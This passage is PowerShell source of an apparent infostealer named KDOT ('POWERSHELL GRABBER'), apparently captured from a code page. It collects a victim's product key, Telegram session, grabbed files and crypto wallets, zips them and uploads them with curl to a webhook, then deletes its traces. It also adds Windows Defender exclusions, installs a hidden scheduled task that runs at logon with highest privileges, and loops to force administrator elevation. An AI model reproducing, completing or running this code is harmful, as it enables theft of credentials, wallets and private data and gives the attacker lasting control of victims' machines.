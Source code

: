     Move-Item -Path "$extracted\NetworkAdapters.txt" -Destination "$extracted\KDOT\NetworkAdapters.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\ProductKey.txt" -Destination "$extracted\KDOT\ProductKey.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\StartUpApps.txt" -Destination "$extracted\KDOT\StartUpApps.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\running-services.txt" -Destination "$extracted\KDOT\running-services.txt" -ErrorAction SilentlyContinue
    Move-Item -Path "$extracted\running-applications.txt" -Destination "$extracted\KDOT\running-applications.txt" -ErrorAction SilentlyContinue
	Move-Item -Path "$extracted\telegram-session.zip" -Destination "$extracted\KDOT\telegram-session.zip" -ErrorAction SilentlyContinue
	Move-Item -Path "Files Grabber" -Destination "$extracted\KDOT\Files Grabber" -ErrorAction SilentlyContinue
	Move-Item -Path "Crypto Wallets" -Destination "$extracted\KDOT\Crypto Wallets" -ErrorAction SilentlyContinue
    Compress-Archive -Path "$extracted\KDOT" -DestinationPath "$extracted\KDOT.zip" -Force
    curl.exe -X POST -F 'payload_json={\"username\": \"POWERSHELL GRABBER\", \"content\": \"\", \"avatar_url\": \"https://i.postimg.cc/m2SSKrBt/Logo.gif\"}' -F "file=@$extracted\KDOT.zip" $webhook
    Remove-Item "$extracted\KDOT.zip"
    Remove-Item "$extracted\KDOT" -Recurse
	Remove-Item "$filegrabber\Files Grabber" -recurse -force
	Remove-Item "$crypto\Crypto Wallets" -recurse -force
    Remove-Item "$extracted\main.exe"
}

function Invoke-TASKS {
    Add-MpPreference -ExclusionPath "$env:LOCALAPPDATA\Temp"
    Add-MpPreference -ExclusionPath "$env:APPDATA\KDOT"
    New-Item -ItemType Directory -Path "$env:APPDATA\KDOT" -Force
    $origin = $PSCommandPath
    Copy-Item -Path $origin -Destination "$env:APPDATA\KDOT\KDOT.ps1" -Force
    $task_name = "KDOT"
    $task_action = New-ScheduledTaskAction -Execute "mshta.exe" -Argument 'vbscript:createobject("wscript.shell").run("PowerShell.exe -ExecutionPolicy Bypass -File %appdata%\kdot\kdot.ps1",0)(window.close)'
    $task_trigger = New-ScheduledTaskTrigger -AtLogOn
    $task_settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries -RunOnlyIfNetworkAvailable -DontStopOnIdleEnd -StartWhenAvailable
    Register-ScheduledTask -Action $task_action -Trigger $task_trigger -Settings $task_settings -TaskName $task_name -Description "KDOT" -RunLevel Highest -Force
    EXFILTRATE-DATA
}



function Request-Admin {
    while(!(CHECK_IF_ADMIN)) {
        try {
            Start-Process "powershell.exe" -ArgumentList "-NoProfile -ExecutionPolicy Bypass -WindowStyle hidden -File `"$PSCommandPath`"" -Verb RunAs
            exit
        }
        catch {}
    }
}
